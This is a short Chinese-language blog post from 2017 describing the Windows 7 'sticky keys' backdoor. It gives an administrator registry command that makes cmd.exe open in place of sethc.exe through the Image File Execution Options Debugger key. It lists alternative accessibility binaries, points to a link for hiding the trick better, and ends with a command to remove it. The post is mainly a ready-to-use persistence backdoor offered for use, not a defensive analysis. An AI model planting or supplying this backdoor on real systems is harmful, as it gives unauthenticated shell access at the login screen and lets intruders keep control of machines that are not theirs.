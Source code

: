 ```yaml
---
layout:     post
title:      win7粘滞键后门
date:       2017-08-03
summary:    win7粘滞键后门
categories: web
tags:
 - 后门
 - win7
---
```


以管理员身份打开cmd.exe运行如下:

'''
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
'''

其中sethc.exe可替换成magnify.exe(放大镜)或其他(eg.narrator.exe|osk.exe),替换成更隐藏的技巧可根据下面链接自由发挥:

<a
href="https://answers.microsoft.com/en-us/windows/forum/windows_7-performance/run-command/a2632e97-c8d1-4ab3-8df2-7e70a4448267">AsULike</a>

删除后门以管理员身份打开cmd.exe运行如下即可:

'''
REG DELETE "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe"
'''

以上理论上适用于win vistar以上系统,只在win7上测试过.
